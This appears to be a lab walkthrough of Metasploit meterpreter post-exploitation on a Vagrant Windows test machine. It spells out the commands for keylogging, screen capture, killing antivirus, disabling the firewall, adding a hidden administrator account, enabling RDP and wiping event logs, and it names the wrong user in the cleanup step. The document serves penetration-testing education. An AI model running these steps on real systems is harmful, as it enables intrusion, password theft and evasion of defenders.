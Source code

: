 Now that we have the shell, we will look into ways in which we will try to exploit the system. When we have a meterpreter session, we can use $`bg` to come in and out of the meterpreter sessions. Sometimes we can have multiple sessions open so to go back and forth we do $`sessions 2` in order to get the session where we want to go. $`sessions` is used to see what sessions we have opened and this is done outside of the session itself in msfconsole. $`msf6 exploit(multi/handler) > sessions`. This will display all the sessions that we have opened. In order to take a screenshot in the victim computer, we hit $`screenshot` once we do that it will give us a display of the screenshot of the victim machine. It will save it in the home/kali folder. 

There are many things that we can do in the meterpreter session in order to utilitze the shell that we have. To see the full list of all the functions we can use. We type in $`help`. We can start a keylogger in order to see what passwords we can use. In order to do so we type in $`keyscan_start`. This will start logging all the keystrokes the victim is typing on. In order to see what they typed we will do a $`keyscan_dump` We can see what they typed and in order to stop it, we do $`keyscan_stop`. 

If you want to see the live view of the victim's machine, then you need to use the command $`vnc` which stands for virtual network computing. We type in $`run vnc -i` $`ps` is another useful command which shows all the running processes in the victim machine. This can be useful for shutting off antivirus machines on the victim's machine. 
In order to cover your tracks as a penetration tester. If we need to clear the logs from the victim machines of the activities we have performed in the machine, we type in $`clearev`. This will clear all the event logs in the victim machine. 
Now that we already have a shell in the victim machine, we can use the postmodules to do nefarious things in the machine. For example if we want to kill the antivirus in the victim machine, we type in $`search type:post kill av` Below is an example. 

![postmodules](https://user-images.githubusercontent.com/93686063/202770755-850a6475-c660-43dd-8766-04e592b79069.JPG)

We can only use the post modules if we have a shell already in the victim's machine. As with using any exploit, we do $`options` to see the parameters that we need to set in order to use it. Since we are Session 4 we will just type in $`set session 4`. After that we just hit $`run`. The result we got for this exploit was $`No Target processes were found`, which means no AV was found. If there were any it would have found 1. 

Now we can try to RDP into the machine which has to be done outside the msfconsole, for that we type in $`rdesktop -u(user) vagrant -p(vagrant) 10.0.2.8:3389(port for rdp not 5555)`. We will not be able to get in because rdp is disabled in the machine. In order to use rdp on the machine, we will have to turn rdp on in the machine. For that we need to go back to our shell. We go to our shell and hit $`back` to get out from our post for av and find one for enable rdp. We type in $`search type:post windows enable_rdp` We hit $`use 0` and do options to see the variable you have to set. Once we hit $`run` we can see that rdp was enabled. 

In order to stay persistent in the victim's machine, we need to use a backdoor, we need to create our own user and hope they dont find out. If we type $`shell` on meterpreter, we will be using the meterpreter as a windows machine and not linux. We need to disable firewall first so that we do not get blocked. In order to do that we type in shell $`C:\Users\vagrant\Desktop>netsh advfirewall set currentprofile state off` We turn the firewall off so that they do not kick us out of the program. Now we will add a user. Type in $`net user guest toor12345/add` Now in order to do anything we need to add our user to admin group so we can get things done. Type in $`net localgroup administrators guest /add` if you get all of that right. You will get the following screen. 

![rdp guest](https://user-images.githubusercontent.com/93686063/202776599-29404b63-dc1a-4765-ac99-77f721586e01.JPG)

Now we have what we need, we have been able to exfiltrate the data we needed, now we need to get out without a trace. First we will delete the user that we added as admin so the victim has no idea we were there. $`net user npower /delete` This will delete the user. 
